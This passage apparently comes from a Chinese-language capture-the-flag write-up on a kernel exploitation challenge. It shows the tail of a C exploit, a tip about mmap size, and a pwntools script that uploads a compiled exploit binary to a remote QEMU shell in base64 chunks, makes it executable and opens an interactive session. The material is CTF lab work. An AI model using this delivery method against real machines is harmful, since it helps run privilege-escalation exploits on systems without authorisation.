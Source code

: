```c
  return 0;
}
```

记得这里 mmap 要开大一点



我们上传脚本这么写

```python
from pwn import *
import time, os

# p = process('./run.sh')
r = remote("localhost", 9999)
output_name = './exp'

# musl-gcc -w -s -static -o3 exp.c -o exp


# p = process(['./qemu-system-x86_64', '-m', '512M', '-kernel', './vmlinuz', '-initrd', './core.cpio', '-L', 'pc-bios', '-monitor', '/dev/null', '-append', "root=/dev/ram rdinit=/sbin/init console=ttyS0 oops=panic panic=1 loglevel=3 quiet kaslr", '-cpu', 'kvm64,+smep', '-smp', 'cores=2,threads=1', '-device', 'ccb-dev-pci', '-nographic'])
os.system("tar -czvf exp.tar.gz ./exp")
os.system("base64 exp.tar.gz > b64_exp")

def exec_cmd(cmd: bytes):
    r.sendline(cmd)
    r.recvuntil(b"/ # ")

def upload():
    p = log.progress("Uploading...")

    with open(output_name, "rb") as f:
        data = f.read()

    encoded = base64.b64encode(data)

    r.recvuntil(b"/ # ")

    for i in range(0, len(encoded), 500):
        p.status("%d / %d" % (i, len(encoded)))
        exec_cmd(b"echo \"%s\" >> benc" % (encoded[i:i+500]))

    exec_cmd(b"cat benc | base64 -d > bout")
    exec_cmd(b"chmod +x bout")

    p.success()
upload()
context.log_level='debug'
# r.sendlineafter("/ #", "./bout")
r.interactive()

```
